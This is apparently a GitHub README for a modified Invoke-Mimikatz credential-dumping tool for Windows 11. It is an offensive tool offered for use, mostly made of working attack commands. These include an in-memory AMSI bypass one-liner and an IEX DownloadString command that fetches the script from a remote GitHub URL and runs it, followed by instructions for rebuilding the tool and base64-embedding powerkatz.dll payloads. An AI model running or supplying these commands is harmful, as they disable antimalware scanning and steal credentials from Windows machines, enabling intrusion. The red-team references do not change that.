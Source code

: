 # Invoke-Mimikatz for Windows 11
Updated version of Invoke-Mimikatz that runs on Windows 11.

## How to use

1. Bypass AMSI: 
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

2. Load Invoke-Mimikatz:
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tartofour/Invoke-Mimikatz/main/Invoke-Mimikatz.ps1')
```

3. Run Invoke-Mimikatz: `Invoke-Mimikatz`

## How to update the script

1. Download Invoke-Mimikatz.ps1 from the PowerShellMafia repo (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).
2. Change the following line:
`$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')` to `$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);`

3. Clone the mimikatz repo from ebalo55 (https://github.com/ebalo55/mimikatz/tree/main).
4. Open the project in VSCode.
5. Select "Second_Release_PowerShell" and build the project.
6. Base64 encode `Win32/powerkatz.dll` and `x64/powerkatz.dll`.
7. Replace the content of the `PEBytes64` and `PEBytes32` variables with base64 encoded payloads.

## References
- https://github.com/mitre/caldera/issues/38
- https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/ 


